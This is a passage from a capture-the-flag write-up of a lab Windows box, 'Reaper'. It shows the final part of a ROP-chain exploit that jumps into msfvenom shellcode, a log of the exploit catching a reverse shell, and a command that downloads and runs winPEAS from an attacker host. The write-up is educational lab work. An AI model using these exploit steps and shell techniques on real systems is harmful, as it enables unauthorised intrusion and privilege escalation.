 After running through this ropchain our actual stack page is now executable, all that is left to do now is to generate some shellcode (using msfvenom for example) and jmp right into it. 

```python
# Start shellcode
rop += p64(pbase + 0x000000000001becd) # push rsp; and al, 8; ret; 
rop += b"\x90" * 8 # some nops
rop += sc # shellcode from msfvenom
```

you can download the final exploit here: [exploit-user-final.py](/assets/img/writeups/reaper/exploit-user-final.py) (will be published at a later time, as requested by xct)

### final exploit in action

```
root@kali2:~/vulnlab/Reaper# python3 exploit-user-final.py 
[*] generating shellcode, takes a bit
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of python file: 2210 bytes
Saved as: sc.py
[+] Opening connection to 10.10.74.149 on port 4141: Done
[*] leaking program base
[*] program base: 0x7ff6b28f0000
[*] building ropchain
[*] sending payload
[*] starting listener
[+] Trying to bind to :: on port 5555: Done
[+] Waiting for connections on :::5555: Got connection from ::ffff:10.10.74.149 on port 50405
[*] Switching to interactive mode
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\keysvc>$ whoami
whoami
reaper\keysvc

C:\keysvc>$  
```

## shell as reaper\\keysvc
So, we made it onto the box :-) let’s look around a bit. We upload winpeas for enumeration to ``c:\programdata`` and look for stuff which sticks out. I found two interesting things:
- a driver directory on c:\ with a definitely non-standard driver named reaper.sys :-)
- a PowerShell command history file

```
C:\ProgramData>$ powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> $ iwr 10.8.0.73/winPEASx64.exe -o winPEASx64.exe
PS C:\ProgramData> $ .\winPEASx64.exe

...
PS history file: C:\Users\keysvc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS history size: 156B
...

```